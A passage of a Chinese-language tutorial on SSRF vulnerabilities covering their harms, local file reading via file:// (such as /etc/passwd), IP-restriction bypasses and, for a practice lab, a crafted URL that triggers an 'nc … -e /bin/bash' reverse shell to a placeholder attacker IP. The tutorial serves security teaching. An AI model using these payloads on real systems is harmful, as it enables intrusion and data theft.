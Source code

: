 <p data-nodeid="59676">漏洞的产生正是将 GET 参数 url 直接传递给 curl_exec 去访问，并调用 echo 将请求结果输出到页面，这正是设置“url=http://baidu.com”后，会打开百度的原因。</p>
<h3 data-nodeid="59677">SSRF 的危害</h3>
<p data-nodeid="59678">基于前面介绍的 SSRF 原理，我们可以梳理出它可能出现的一些危害。</p>
<ul data-nodeid="59679">
<li data-nodeid="59680">
<p data-nodeid="59681"><strong data-nodeid="59877">内网探测</strong>：对内网服务器、办公机进行端口扫描、资产扫描、漏洞扫描。</p>
</li>
<li data-nodeid="59682">
<p data-nodeid="59683"><strong data-nodeid="59882">窃取本地和内网敏感数据</strong>：访问和下载内网的敏感数据，利用 File 协议访问服务器本地文件。</p>
</li>
<li data-nodeid="59684">
<p data-nodeid="59685"><strong data-nodeid="59887">攻击服务器本地或内网应用</strong>：利用发现的漏洞进一步发起攻击利用。</p>
</li>
<li data-nodeid="59686">
<p data-nodeid="59687"><strong data-nodeid="59892">跳板攻击</strong>：借助存在 SSRF 漏洞的服务器对内或对外发起攻击，以隐藏自己真实 IP。</p>
</li>
<li data-nodeid="59688">
<p data-nodeid="59689"><strong data-nodeid="59897">绕过安全防御</strong>：比如防火墙、CDN（内容分发网络，比如加速乐、百度云加速、安全宝等等）防御。</p>
</li>
<li data-nodeid="59690">
<p data-nodeid="59691"><strong data-nodeid="59902">拒绝服务攻击</strong>：请求超大文件，保持链接 Keep-Alive Always。</p>
</li>
</ul>
<p data-nodeid="59692">你可以自己发挥脑洞去挖掘更多的可能的攻击场景，欢迎在留言区留言、讨论。</p>
<h3 data-nodeid="59693">常见的利用与限制绕过方法</h3>
<p data-nodeid="59694">说了这么多，那我们来看一下 SSRF 漏洞常见的利用方法和绕过限制的手段。</p>
<h4 data-nodeid="59695">1.利用支持的 URL Schema 发起请求伪造</h4>
<p data-nodeid="59696">不仅仅只是常见的 http/https 协议，OWASP 曾整理过一份相对比较完整的 URL Schema，这里我发出来供你参考一下：</p>
<p data-nodeid="62050" class=""><img src="https://s0.lgstatic.com/i/image/M00/8D/9D/CgqCHmAADh6AFbrRAAIMts5NwrM049.png" alt="图片4.png" data-nodeid="62054"></p>
<div data-nodeid="62051"><p style="text-align:center">图 4：常用于 SSRF 的 URL Scheme</p></div>


<p data-nodeid="59699">在利用初期，你可以尝试下目标支持哪些 URL Schema，但有一点需要提醒下：<strong data-nodeid="59916">有些应用会自定义一些 URL Schema，如果它支持本地或网络地址请求，要注意避免遗漏掉</strong>。</p>
<h4 data-nodeid="59700">2.读取本地文件</h4>
<p data-nodeid="59701">从图 4 可以看到，除了 http/https 协议外，File 也是各场景通用的伪协议，利用它我们可以读取服务器的本地文件，比如 /etc/passwd、/proc/self/environ……</p>
<p data-nodeid="63968" class=""><img src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___JyAXxb8AAFuJktUmQY503.png" alt="Drawing 4.png" data-nodeid="63972"></p>
<div data-nodeid="63969"><p style="text-align:center">图 5：利用 SSRF 读取服务器本地文件</p></div>




<h4 data-nodeid="59704">3.攻击内网应用漏洞</h4>
<p data-nodeid="59705">前期可以利用 SSRF 漏洞对内网存活 IP 或域名进行漏洞扫描。以前在公司就曾遇到过这样一种情况：有些业务为了测试，在内网搭建了一些存在漏洞；或是有漏洞没有及时修复，理由是在内网没影响。然后，有一些被外部 SSRF 漏洞打进来了，利用了 Struts2 漏洞控制了内网服务器。</p>
<p data-nodeid="59706">比如内网有一台存在代码执行漏洞（http://192.168.x.x/vul.php?cmd=whoami）的服务器未开外网，那么攻击者就可以利用 SSRF 漏洞来攻击该内网服务器。以 Pikachu 靶场 SSRF（curl）题目为例，可以构造如下链接来获取内网服务器的 shell 控制权限：</p>
<pre class="lang-java" data-nodeid="59707"><code data-language="java">http:<span class="hljs-comment">//localhost:8080/vul/ssrf/ssrf_curl.php?url=http://192.168.x.x/vul.php?cmd=nc [攻击者 ip] 4444 –e /bin/bash;</span>
</code></pre>
<h4 data-nodeid="59708">4.绕过 IP 限制</h4>
<p data-nodeid="59709">有些网站可能会限制访问 IP，此时就可以尝试使用以下方法绕过：</p>
<ul data-nodeid="59710">
<li data-nodeid="59711">
<p data-nodeid="59712"><strong data-nodeid="59931">IPv6 地址</strong>，如 http://2000::1:2345:6789:abcd；</p>
</li>
<li data-nodeid="59713">